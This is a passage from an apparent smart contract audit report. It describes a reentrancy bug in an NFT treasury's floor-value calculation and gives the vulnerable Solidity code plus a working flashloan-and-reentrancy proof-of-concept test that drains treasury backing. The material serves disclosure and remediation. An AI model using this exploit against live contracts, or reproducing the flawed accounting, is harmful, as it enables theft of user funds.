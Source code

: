 `Treasury.float()` is calculated using exactly the `totalSupply` of the corresponding NTLC collection, and the `NTLC.realFloorValue()` uses the `backing` amount as well as the `float()`:

```solidity
function realFloorValue() public view returns (uint256 value_) {
    uint256 float_ = float();

    if (float_ > 0) value_ = (backing + backingLoanedOut - collateralHeld) / float_;
}

function float() public view returns (uint256 float_) {
    uint256 totalSupply_ = collection.totalSupply();
    uint256 treasurySupply_ = collection.balanceOf(address(this));

    float_ = totalSupply_ - (itemsLoaned + treasurySupply_ - loansOnCollection);
}
```

An adversary can therefore exploit this pattern by minting multiple NFTs and reentering right on the first callback (`onERC721Received`) call into the Treasury contract to abuse that the `realFloorValue()` is higher than it should be as the `totalSupply` is not yet incremented by the whole `amount` of NFTs to mint while the whole backing has been added.

The following PoC shows how this can be combined with a flashloan to steal a significant portion of the treasury backing.

**Proof of Concept:**

The full PoC for this finding can be found at [\textit{this link}](https://gist.github.com/gogotheauditor/23678bd09b940dba1a0a91e00d642fe1).

\pagebreak

```solidity
function test_Proof_of_Concept_C4() external {
    // 1. Users mint 1000 NFTs (out of 10000) from the NTLC collection and become holders.
    _helperMintNTLC(users, 1000);

    // 2. Cache the current state before the exploit is executed.
    _helperCacheBalances(0);

    // 3. We (the attacker) take a flashloan to mint 2000 NFTs more.
    uint256 flashLoanAmount = 2000 * collection.mintPrice();
    _helperDealETH(address(this), flashLoanAmount);

    // 4. We call the `mint` and execute the reentrancy (see `onERC721Received`).
    reentrancyC4 = true;

    collection.mint{value: flashLoanAmount}(2000);

    // 6. Finally, we pay the flash loan back and log results.
    weth.transfer(address(0), flashLoanAmount);

    _helperCacheBalances(1);
    _helperLogBalances();
}

function onERC721Received(address, address, uint256 id, bytes calldata) external returns (bytes4) {
    if (reentrancyC4) {
        // 5. Redeem the item that we just minted at a higher price.
        collection.approve(address(treasury), id);
        treasury.redeemItem(id);
    }
    return IERC721Receiver.onERC721Received.selector;
}
```
